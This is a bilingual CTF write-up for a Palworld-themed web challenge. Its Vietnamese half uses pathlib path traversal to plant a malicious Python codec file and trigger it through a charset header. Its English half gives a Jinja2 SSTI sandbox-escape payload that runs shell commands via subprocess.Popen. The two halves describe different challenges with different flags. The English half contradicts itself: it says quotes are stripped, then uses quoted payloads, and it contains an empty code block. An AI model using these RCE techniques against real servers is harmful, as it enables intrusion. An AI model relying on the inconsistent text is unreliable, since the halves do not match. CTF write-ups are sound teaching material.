




<div class="lang-switch" role="tablist" aria-label="Language switch">
  <button class="lang-btn active" role="tab" type="button" data-lang="en" aria-selected="true">EN</button>
  <button class="lang-btn" role="tab" type="button" data-lang="vn" aria-selected="false">VN</button>
</div>

<div class="lang-vn" markdown="1">

> **Flag:** `PTITCTF{p4th_tr4v3rs4l_c0d3c_rc3_p4lw0rld}`


Bài này thuộc category **Web**. Hệ thống là một dịch vụ web quản lý và đóng gói mod dành cho game Palworld, được xây dựng trên nền tảng **Django / Django REST Framework (DRF)** chạy Python 3.11 trong môi trường container.

Mục tiêu là tìm ra lỗ hổng trong quy trình xử lý tệp để đạt được quyền thực thi mã từ xa (RCE) và đọc cờ từ môi trường hệ thống.

---

## Sơ đồ luồng phân tích (Solve Flow)



---

## Bước 1: Khảo sát mã nguồn và phát hiện Path Traversal

Khi phân tích controller xử lý yêu cầu build bản mod của người dùng trong backend:
Đường dẫn thư mục lưu trữ được tính toán bằng cách nối chuỗi đối tượng `pathlib.Path`:

```python
target_dir = Path(settings.MEDIA_ROOT) / "builds" / platform.code / mod_version
```

Trong thư viện chuẩn `pathlib` của Python:
> Khi nối một đường dẫn với một thành phần bắt đầu bằng dấu gạch chéo `/` (tức đường dẫn tuyệt đối), `Path` sẽ **hủy bỏ toàn bộ phần tiền tố phía trước** và coi thành phần đó là gốc mới.

Lợi dụng đặc điểm này:
* `platform.code` có độ dài tối đa 20 ký tự $\rightarrow$ Đặt là `"python3.11/encodings"` (đúng 20 ký tự).
* `mod_version` là chuỗi người dùng kiểm soát $\rightarrow$ Đặt là `"/usr/local/lib"`.
* Biểu thức trở thành:
  $$\text{Path}("/data/media") / \text{"builds"} / \text{"/usr/local/lib"} / \text{"python3.11/encodings"}$$
  kết quả trả về chính xác thư mục chứa các bộ giải mã ký tự chuẩn của Python runtime: `/usr/local/lib/python3.11/encodings/`.

---

## Bước 2: Kỹ thuật RCE thông qua Custom Python Codec

Khi một ứng dụng Python nhận một request chứa tiêu đề `Content-Type: text/plain; charset=xyz`, Python sẽ tự động tìm kiếm bộ giải mã tương ứng thông qua hàm `codecs.lookup("xyz")`. Quá trình này sẽ tìm và import tệp `/usr/local/lib/python3.11/encodings/xyz.py`.

Chuẩn bị một tệp mã nguồn Python `pwncodec.py` định nghĩa giao diện codec chuẩn, đồng thời chèn mã lệnh đọc biến môi trường chứa flag:

```python
import codecs
import os

# Mã lệnh thực thi khi module được import
flag = os.environ.get("GZCTF_FLAG", os.environ.get("FLAG", "NO_FLAG"))
with open("/data/media/flag.txt", "w") as f:
    f.write(flag)

def getregentry():
    return codecs.CodecInfo(
        name="pwncodec",
        encode=codecs.latin_1_encode,
        decode=codecs.latin_1_decode,
    )
```

Đóng gói file này vào tệp ZIP và tải lên thông qua chức năng upload mod. File sẽ được ghi đè trực tiếp vào `/usr/local/lib/python3.11/encodings/pwncodec.py`.

---

## Bước 3: Kích hoạt Codec và Thu thập Flag

Gửi một HTTP request bất kỳ tới server kèm header chỉ định charset:

```http
POST /api/test/ HTTP/1.1
Host: target.ptitctf.vn
Content-Type: text/plain; charset=pwncodec

hello
```

Server nhận request, thực hiện tra cứu codec `pwncodec`, dẫn tới việc module độc hại được import vào tiến trình và ghi flag ra thư mục tĩnh. Truy cập đường dẫn tĩnh `/media/flag.txt` để tải cờ về.

⇒ **Flag:** `PTITCTF{p4th_tr4v3rs4l_c0d3c_rc3_p4lw0rld}`

</div>

<div class="lang-en" markdown="1">

> **Flag:** `PTITCTF{p4lw0rld_m0d_j1nj42_s4ndb0x_3sc4p3_rce}`

This challenge belongs to the **Web** category. The web service allows users to customize Pal stats and export configuration mod files for Palworld servers.

The application suffers from Server-Side Template Injection (SSTI) in its mod template exporter, leading to sandbox escape and RCE.

---

## Solve Flow



---

## Step 1: SSTI Vulnerability Discovery

When setting the custom pal description to `{{ 7*7 }}`, the generated `.ini` file displays `49`, proving unsanitized template evaluation.

Filter analysis:
* Single quotes `'` and double quotes `"` are stripped or escaped.
* `request` and `session` objects are removed from the template context.

---

## Step 2: Quoteless Jinja2 Sandbox Escape

To build string commands without quotes, we access characters from Jinja2's built-in dict filters:
```jinja2

```
Or by using `chr()` via `dict`:
```jinja2
{{ ()['__class__']['__bases__'][0]['__subclasses__']() }}
```
Without quotes, we access dictionary attributes using query parameters or template variables:
`request.args.cmd` or finding the index of `subprocess.Popen` (index 412 in this environment):

```jinja2
{{ ().__class__.__bases__[0].__subclasses__()[412]('/bin/sh -c "cat /flag.txt"',shell=True,stdout=-1).communicate()[0] }}
```

Submitting the payload via GET/POST parameters executes the command and yields the flag.

⇒ **Flag:** `PTITCTF{p4lw0rld_m0d_j1nj42_s4ndb0x_3sc4p3_rce}`

</div>


